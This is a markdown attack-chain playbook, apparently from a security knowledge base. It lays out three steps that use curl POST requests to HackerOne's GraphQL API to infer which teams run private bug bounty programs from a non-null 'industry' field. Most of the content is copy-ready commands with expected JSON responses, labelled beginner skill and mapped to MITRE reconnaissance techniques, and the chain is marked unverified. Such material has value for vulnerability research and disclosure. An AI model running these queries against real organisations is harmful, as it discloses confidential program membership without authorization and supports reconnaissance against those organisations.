

# Disclose Private Bug Bounty Programs via HackerOne GraphQL Industry Field

Multi-stage attack chain demonstrating reconnaissance via information disclosure in HackerOne's GraphQL API. The attack reveals whether teams are associated with private bug bounty programs by checking if the 'industry' field returns a non-null value.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~1 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- HackerOne GraphQL API endpoint (publicly accessible)
- No authentication required for these queries
- Network access to https://api.hackerone.com

### Initial Access Requirements

- No credentials needed
- Public internet access
- Knowledge of team handles (obtainable from public HackerOne profiles)

## Detailed Attack Procedures

### Step 1: Query Team with Private Program
procedure: [[procedures/Query-HackerOne-GraphQL-Team-Industry]]

**Objective**: Send a GraphQL query using a known team handle associated with a private program to retrieve the 'industry' field and confirm non-null disclosure.

**Instructions**: Use [[commands/graphql-query-team-industry-private1]] to send the POST request to the GraphQL endpoint:

```bash
curl -X POST https://api.hackerone.com/graphql -H "Content-Type: application/json" -d '{"query": "query {team(handle:\"example-private-team1\"){_id,industry}}"}'
```

This queries the team object and checks for a populated 'industry' field.

**Expected Output**: JSON response with non-null industry, e.g., {"data":{"team":{"_id":"example-id","industry":"Computer Hardware & Peripherals"}}}.

**Success Indicators**:
- Response contains a non-null 'industry' value
- Indicates association with a private program

### Step 2: Query Another Team with Private Program
procedure: [[procedures/Query-HackerOne-GraphQL-Team-Industry]]

**Objective**: Repeat the query for a second known private team handle to gather additional industry details and confirm consistent disclosure.

**Instructions**: Execute [[commands/graphql-query-team-industry-private2]] against the API:

```bash
curl -X POST https://api.hackerone.com/graphql -H "Content-Type: application/json" -d '{"query": "query {team(handle:\"example-private-team2\"){_id,industry}}"}'
```

This further validates the vulnerability across multiple private teams.

**Expected Output**: JSON with non-null industry, e.g., {"data":{"team":{"_id":"example-id2","industry":"Computer Software"}}}.

**Success Indicators**:
- Non-null 'industry' returned again
- Cross-verification of private program exposure

### Step 3: Query Team without Private Program
procedure: [[procedures/Query-HackerOne-GraphQL-Team-Industry]]

**Objective**: Contrast with a public or sandboxed team handle to observe null 'industry' and differentiate private from public programs.

**Instructions**: Run [[commands/graphql-query-team-industry-public]] to query a non-private team:

```bash
curl -X POST https://api.hackerone.com/graphql -H "Content-Type: application/json" -d '{"query": "query {team(handle:\"example-public-team\"){_id,industry}}"}'
```

This step highlights the access control flaw by showing null for non-private teams.

**Expected Output**: JSON with null industry, e.g., {"data":{"team":{"_id":"example-id3","industry":null}}}.

**Success Indicators**:
- 'industry' field is null
- Confirms selective disclosure for private programs only

## Attack Chain Summary

### Key Achievements

1. Successful querying of private team industries via GraphQL
2. Differentiation between private and public programs
3. Exposure of sensitive program statuses without authorization

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Gather Victim Org Information]] Gather Victim Organization Information
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application

### MITRE ATT&CK Tactics

- [[Reconnaissance]] Reconnaissance

---
*Last updated: 2023-10-01T00:00:00Z*
